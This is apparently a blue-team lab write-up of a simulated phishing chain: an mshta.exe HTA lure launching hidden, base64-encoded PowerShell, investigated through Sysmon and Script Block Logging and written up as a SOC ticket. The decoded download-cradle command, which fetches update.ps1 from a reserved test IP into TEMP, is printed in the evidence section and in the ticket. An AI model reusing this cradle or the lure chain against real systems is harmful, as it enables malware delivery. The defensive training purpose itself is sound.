




# Suspicious PowerShell Investigation (Sysmon + Script Block Logging)

## Summary
Configured Windows event logging to capture obfuscated PowerShell activity, then triggered a
safe, self-contained simulation of a phishing-style execution chain: a lure file spawning a
hidden, base64-encoded PowerShell command with a download-cradle pattern. Investigated the
resulting logs end-to-end — decoding, parent/child process tracing, and a malicious-vs-admin
verdict — and wrote it up as a SOC ticket.

## Tools used
- Sysmon (SwiftOnSecurity config)
- Windows PowerShell Script Block Logging (Event ID 4104)
- CyberChef (manual decode verification)

## Scenario
Simulated a phishing lure using `mshta.exe` (MITRE ATT&CK T1218.005) launching a hidden,
base64-encoded PowerShell command. The command's target IP, `203.0.113.77`, is part of a block
permanently reserved for documentation/testing (RFC 5737) — the connection attempt was expected
to fail, keeping the entire exercise safe to actually execute end-to-end.

## Investigation

### 1. Logging configuration
Enabled Sysmon with the SwiftOnSecurity config and PowerShell Script Block Logging
(`HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging`) before triggering
anything — without this, none of the following evidence would exist.

### 2. Captured the suspicious execution
Triggered the lure (`Facture_Q3.hta`). Windows immediately logged the full command via Event ID
4104, decoded automatically since script block logging captures the interpreted command, not
just the raw base64:

```
try { Invoke-WebRequest -Uri 'http://203.0.113.77/update.ps1' -UseBasicParsing -TimeoutSec 3 -OutFile "$env:TEMP\update.ps1" } catch {}; "SOC training simulation - encoded PowerShell execution demo" | Out-File "$env:TEMP\demo_evidence.txt"
```



A companion Event ID 4100 confirmed the outbound connection attempt failed by timeout — expected,
since `203.0.113.77` is a reserved, non-routable test address:



### 3. Verified the decode manually
Rather than relying only on Windows' automatic decoding, re-decoded the original base64 string
independently in CyberChef (`From Base64` → `Decode text`, UTF-16LE) — the specific encoding
PowerShell's `-EncodedCommand` always uses. Output matched the ScriptBlockText exactly, confirming
the chain of evidence:



> Decoding is reading. Running it is an incident.

### 4. Traced the parent process
Sysmon Event ID 1 confirmed the full execution chain — `mshta.exe` (running the lure file)
spawning `powershell.exe` with the exact encoded command line, plus the SHA256 hash of the
PowerShell binary involved:



### 5. Malicious or just an admin?
| Signal | Result |
|---|---|
| Spawned by a document/lure-style process | ✅ `mshta.exe` running `Facture_Q3.hta` |
| Encoded + hidden window | ✅ `-WindowStyle Hidden -EncodedCommand` |
| Reaches out to a raw IP | ✅ `203.0.113.77` |
| Drops files into a temp folder | ✅ `$env:TEMP\demo_evidence.txt` |

All four "likely malicious" signals present, none of the "likely admin" signals (not a deployment
tool, not a signed script, no scheduled task match) → **True Positive**.

## Ticket

```
ALERT: Encoded PowerShell execution
HOST: DESKTOP-8TIFH9A
PARENT: mshta.exe (C:\Windows\SysWOW64\mshta.exe) executing Facture_Q3.hta from user's Desktop
DECODED: try { Invoke-WebRequest -Uri 'http://203.0.113.77/update.ps1' -UseBasicParsing -TimeoutSec 3 -OutFile "$env:TEMP\update.ps1" } catch {}; "SOC training simulation - encoded PowerShell execution demo" | Out-File "$env:TEMP\demo_evidence.txt"
VERDICT: True positive (simulated exercise)
ATT&CK: T1218.005 (Mshta), T1059.001 (PowerShell), T1105 (Ingress Tool Transfer — attempted, failed)
ACTION: Host isolated (VM paused/snapshotted), IP 203.0.113.77 documented for blocking, SHA256 259B530B56B30DB89FB6A7966FE9D87D26AA2333937BC439E666EA406C6AF54C documented for the PowerShell process, escalated per simulated procedure
```

Paste the decoded command in the ticket, not the base64.
Name the parent process every time.
Say what you blocked and where.

## What I learned
Seeing Windows decode the PowerShell command automatically in Event 4104 — before I ever touched
CyberChef — was the clearest demonstration of why script block logging matters: an attacker's
obfuscation only defeats an analyst who isn't logging the right thing in the first place. Tracing
`mshta.exe` as the parent in Sysmon also made concrete why parent-process context matters more
than the command itself — the exact same PowerShell line would read very differently spawned by a
deployment tool instead of an HTA file launched from a user's Desktop.

---

### LinkedIn post draft

> Simulated a phishing-style PowerShell execution chain end-to-end: configured Sysmon and Script
> Block Logging, triggered a hidden, encoded PowerShell command via mshta.exe, then investigated
> it — decoding, parent-process tracing, and a malicious-vs-admin verdict — and wrote it up as a
> SOC ticket.
>
> Full write-up on GitHub: [link]
>
> #cybersecurity #SOC #blueteam #Sysmon #PowerShell
